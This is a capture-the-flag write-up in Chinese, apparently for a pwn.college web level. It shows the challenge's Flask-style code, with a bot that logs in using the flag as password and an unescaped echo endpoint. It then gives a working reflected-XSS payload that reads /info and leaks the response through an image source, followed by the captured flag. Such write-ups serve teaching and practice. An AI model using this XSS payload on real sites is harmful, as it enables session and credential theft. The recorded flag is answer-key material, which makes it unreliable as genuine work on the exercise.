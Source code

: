 ```
    if request.path == "/visit":
        url = request.args.get("url")
        assert url, "Missing `url` argument"

        url_arg_parsed = urllib.parse.urlparse(url)
        assert url_arg_parsed.hostname == challenge_host, f"Invalid `url`, hostname should be `{challenge_host}`"

        with run_browser() as browser:
            browser.get(f"http://{challenge_host}/login")

            user_form = {
                "username": "flag",
                "password": flag,
            }
            for name, value in user_form.items():
                field = browser.find_element(By.NAME, name)
                field.send_keys(value)

            submit_field = browser.find_element(By.ID, "submit")
            submit_field.submit()
            WebDriverWait(browser, 10).until(EC.staleness_of(submit_field))

            browser.get(url)
            time.sleep(1)

        return "Visited\n"

    if request.path == "/echo":
        echo = request.args.get("echo")
        assert echo, "Missing `echo` argument"
        return html(echo)

    return "Not Found\n", 404
```
这个也是不需要服务器的，和13的区别在于删去了http session那句话，也就是说不能读取出来然后在使用比如curl等方式传递这个cookie了，但是可以直接在js之中调用，也就是说，这个答案和level13是一样的！
```
import requests

r = requests.get('http://challenge.localhost/visit?url=http://challenge.localhost/echo?echo=<img src = "n" id="n"><script>var xhttp = new XMLHttpRequest();xhttp.open("GET","http://challenge.localhost/info?user=1",true);xhttp.onreadystatechange = function(){document.getElementById("n").src = this.responseText;};xhttp.send();</script>').content.decode()
print(r.text)
```
然后还是在get之中
```
GET /flag%20pwn.college{geCA9st3ZYLR66SVt816em8X9HG.dBDM0MDL2QjMyMzW}
```
## level15 Exploit a (memory corruption) stack injection vulnerability
